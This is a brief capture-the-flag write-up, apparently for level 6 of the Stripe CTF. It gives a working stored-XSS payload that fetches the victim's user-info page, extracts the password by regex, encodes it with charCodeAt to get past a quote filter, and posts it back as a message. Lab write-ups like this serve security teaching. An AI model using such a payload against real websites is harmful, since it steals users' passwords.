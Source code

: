 LEVEL 06
========

XSS vulnerability, only ' & " are not allowed, add < script >.

    $.get('https://level06-2.stripe-ctf.com/user-gdnipyajcv/user_info',
      function(data) {
        var password = /Password:<\/th>\s+<td>(.+)<\/td>/.exec(data)[1];
        var res = '';
        for (var i = 0; i < password.length; i++) {
          res += password.charCodeAt(i) + ", ";
        }
        console.log(res);
        $("#content").val(res);
        $("#new_post").submit();
      })

Escape with JavaScript String.charCodeAt()

[http://www.w3schools.com/jsref/jsref_charcodeat.asp](http://www.w3schools.com/jsref/jsref_charcodeat.asp)
[http://www.w3schools.com/jsref/jsref_fromcharcode.asp](http://www.w3schools.com/jsref/jsref_fromcharcode.asp)
[http://www.w3schools.com/jsref/jsref_eval.ASP](http://www.w3schools.com/jsref/jsref_eval.ASP)
[http://jdstiles.com/java/cct.html](http://jdstiles.com/java/cct.html)
